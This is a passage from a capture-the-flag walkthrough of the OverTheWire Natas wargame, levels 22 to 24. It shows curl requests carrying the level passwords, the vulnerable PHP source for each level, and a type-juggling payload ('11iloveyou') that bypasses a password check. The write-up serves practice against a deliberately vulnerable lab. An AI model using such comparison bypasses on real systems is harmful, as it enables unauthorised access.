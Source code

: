 ```
$ curl -u natas22:chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ http://natas22.natas.labs.overthewire.org/?revelio
```

```
You are an admin. The credentials for the next level are:
Username: natas23
Password: D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE
```

# 24. Level 23

```php
<?php
// http://natas23.natas.labs.overthewire.org/index-source.html
if(array_key_exists("passwd",$_REQUEST)){
    if(strstr($_REQUEST["passwd"],"iloveyou") && ($_REQUEST["passwd"] > 10 )){
        echo "<br>The credentials for the next level are:<br>";
        echo "<pre>Username: natas24 Password: <censored></pre>";
    }
    else{
        echo "<br>Wrong!<br>";
    }
}
?>
```

The password must include `iloveyou` and be greater than `10` after converted to integer.

```
$ curl -u natas23:D0vlad33nQF0Hz2EP255TP5wSW9ZsRSE http://natas23.natas.labs.overthewire.org/ -F 'passwd=11iloveyou'
```

```
The credentials for the next level are:
Username: natas24 Password: OsRmXFguozKpTZZ5X14zNO43379LZveg
```

# 25. Level 24

```php
<?php
// http://natas24.natas.labs.overthewire.org/index-source.html
if(array_key_exists("passwd",$_REQUEST)){
    if(!strcmp($_REQUEST["passwd"],"<censored>")){
        echo "<br>The credentials for the next level are:<br>";
        echo "<pre>Username: natas25 Password: <censored></pre>";
    }
    else{
        echo "<br>Wrong!<br>";
    }
}
?>
```
